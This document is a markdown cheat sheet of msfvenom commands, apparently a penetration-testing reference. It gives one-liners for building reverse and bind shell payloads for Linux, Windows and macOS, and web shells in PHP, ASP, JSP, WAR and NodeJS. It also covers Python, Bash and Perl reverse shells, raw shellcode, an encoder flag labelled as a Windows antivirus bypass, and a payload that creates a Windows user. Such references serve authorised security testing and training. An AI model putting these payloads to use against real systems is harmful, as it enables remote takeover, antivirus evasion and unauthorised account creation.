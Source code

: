 # MSFVenom

## List payloads
```bash
msfvenom -l payloads # lists payloads
msfvenom -l encoders # lists encoders
```
## Useful parameters
```bash
-b "\x00\x0a\x0d" 
-f c 
-e x86/shikata_ga_nai -i 3 # Bypass Windows AV
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
```
## Binary Payloads
### Linux Meterpreter Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > FILENAME.elf
```
### Linux Bind Meterpreter Shell
```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > FILENAME.elf
```
### Linux Bind Shell
```
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > FILENAME.elf
```
### Windows Meterpreter Reverse TCP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > FILENAME.exe
```
### Windows Reverse TCP Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > FILENAME.exe
```
### Windows Encoded Meterpreter Windows Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > FILENAME.exe
```
### Mac Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > FILENAME.macho
```
### Mac Bind Shell
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > FILENAME.macho
```
## Web payloads
### PHP Meterpreter Reverse TCP
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
### ASP Meterpreter Reverse TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```
### JSP Java Meterpreter Reverse TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```
### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```
### NodeJS
```
msfvenom -p nodejs/shell_reverse_tcp LHOST<IP Address> LPORT=<Your Port> -f js > shell.js
```

## Scripting payloads
### Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
```
### Bash Unix Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
### Perl Unix Reverse shell
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```
## Shellcode
### Windows Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
### Linux Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
### Mac Reverse TCP Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
## Create user
```
msfvenom -p windows/adduser USER=<USER> PASS=<PASSWORD> -f exe > adduser.exe
```